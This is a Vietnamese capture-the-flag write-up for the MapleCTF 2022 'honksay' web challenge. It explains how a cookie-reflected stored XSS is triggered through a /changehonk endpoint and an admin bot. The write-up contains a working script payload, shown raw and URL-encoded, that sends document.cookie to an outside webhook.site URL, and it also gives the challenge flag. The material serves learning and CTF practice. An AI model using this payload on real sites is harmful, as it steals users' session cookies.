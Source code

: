 # MAPLECTF 2022

## honksay

Challange cho ta một trang web có thể nhập input để phàn nàn nếu con ngỗng có nói bậy :v 

Ngoài ra challange còn cung cấp cho ta source code, sau khi tải file .zip và giải nén ta dùng docker để khởi tạo challange trên local

Sau khi khởi tạo challenge sẽ chạy ở port 9988 

Ngắm ngía một chút source code có thể để ý thấy điều này:
```html
    ${goosemsg === '' ? '': `<h1> ${goosemsg} </h1>`}
    <img src='/images/goosevie.png' width='400' height='700' class='center'></img>
    ${goosecount === '' ? '': `<h1> You have honked ${goosecount} times today </h1>`}

    <form action="/report" method=POST style="text-align: center;">
        <label for="url">Did the goose say something bad? Give us feedback.</label>
        <br>
        <input type="text" id="site" name="url" style-"height:300"><br><br>
        <input type="submit" value="Submit" style="color:black">
    </form>
</html>
```
Hai biến goosemsg và goosecount sẽ được inject vào html nên ta sẽ thử dùng XSS để exploit. Và giá trị 2 biến này tương ứng với honk và honkcount trong cookie

Nhìn thêm vào source code ta thấy có đường dẫn **/changehonk** nhận querry string là newhonk và gán honk = newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Tóm lại ta chỉ cần thay đổi được giá trị của honk trong cookie thành payload XSS, để làm được điều đó thì ta lợi dụng logic của **/changehonk** 

Từ đó ta có payload:
```bash
http://localhost:9988/changehonk?newhonk[message]=<script>var i = new Image; i.src="https://webhook.site/b4f4ffa4-09ab-4ea7-8b1f-949b5902691c/?"+document.cookie;</script>

URL Encode:
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Evar%20i%20%3D%20new%20Image%3B%20i.src%3D%22https%3A%2F%2Fwebhook.site%2Fb4f4ffa4-09ab-4ea7-8b1f-949b5902691c%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
```

Ở đây ta dùng [webhook](https://webhook.site/) để nhận request có chứa cookie gửi về từ challange (thay url webhook trong payload bằng url webhook của bạn)


Tuy nhiên ta không nhận về được flag  
![web-hook-no-flag](web-hook-no-flag.png)

Nhìn thêm vào source code ta thấy **/report** có gọi tới hàm visit trong file goose.js
```javascript
app.post('/report', (req, res) => {
    const url = req.body.url;
    goose.visit(url);
    res.send('honk');
});
```
Hàm visit trong goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta có thể tạm hình dung hàm vist sẽ nhận para là url sau đó set cookie tên là flag (cái ta đang tìm) và cuối cùng thực hiện duyệt web tới url với cookie được set

Vậy để lấy được flag ta sẽ truyền payload đã nêu ở trên vào param url của **/report** thông qua methods POST. Khi hàm visit thực thi, payload sẽ gửi request cho [webhook](https://webhook.site/) với cookie lúc này đã có flag
![burp-suit-img](burp-suit-img.png)
![fake-flag.png](fake-flag.png)

Cuối cùng ta thực hiện exploit trong challange thay vì local để lấy flag. Tuy nhiên payload sẽ vẫn có url là **http://localhost:9988/......**. Vì domain đã được khai báo là "localhost" trong hàm visit 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
```
![real-flag.png](real-flag.png)
> **_FLAG:_**  maple{g00segoHONK}